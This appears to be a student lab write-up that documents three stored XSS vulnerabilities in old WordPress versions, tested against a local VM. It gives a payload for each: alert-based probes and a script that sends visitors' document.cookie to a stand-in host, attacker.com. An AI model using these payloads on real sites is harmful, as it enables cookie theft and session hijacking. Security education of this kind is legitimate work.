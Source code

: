 # Week-7-Project-WordPress-vs.-Kali


[!] Title: WordPress <= 4.2 - Unauthenticated Stored Cross-Site Scripting (XSS)
    Reference: https://www.exploit-db.com/exploits/36844/
[i] Fixed in: 4.2.1
If triggered by a logged-in administrator, under default settings the attacker can leverage the vulnerability to 
execute arbitrary code on the server via the plugin and theme editors.
  <a title='x onmouseover=alert(unescape(/hello%20world/.source)) style=position:absolute;left:0;top:0;width:5000px;height:5000px x
<img src="https://i.imgur.com/kKKLoZh.gif" width="800">


[!] Title: WordPress <= 4.2.3 - Widgets Title Cross-Site Scripting (XSS)
    Reference: https://wpvulndb.com/vulnerabilities/8131
[i] Fixed in: 4.2.4
Top 10 2013-A3-Cross-Site Scripting (XSS)
https://www.owasp.org/index.php/Top_10_2013-A3-Cross-Site_Scripting_(XSS)
If the attacker could trick the admin to post this as a comment:
(String) page += "<input name='creditcard' type='TEXT' value='" + request.getParameter("'><script>document.location= 'http://www.attacker.com/cgi-bin/cookie.cgi ?foo='+document.cookie</script>'.") + "'>";
we would get a working XSS exploit that would forward wpdistillery.vm visitors to attacker.com
<img src="https://i.imgur.com/3mrNRXU.gif" width="800">


[!] Title: WordPress  4.0-4.7.2 - Authenticated Stored Cross-Site Scripting (XSS) in YouTube URL Embeds
    Reference: https://blog.sucuri.net/2017/03/stored-xss-in-wordpress-core.html
This issue was patched in WordPress 4.7.3.
If the attacker could trick the admin to post this as a comment:
<embed src='https://youtube.com/embed/12345\x3csvg onload=alert(1)\x3e'></embed>
we could get a stored XSS exploit.
<img src="https://i.imgur.com/msRn9YG.gif" width="800">

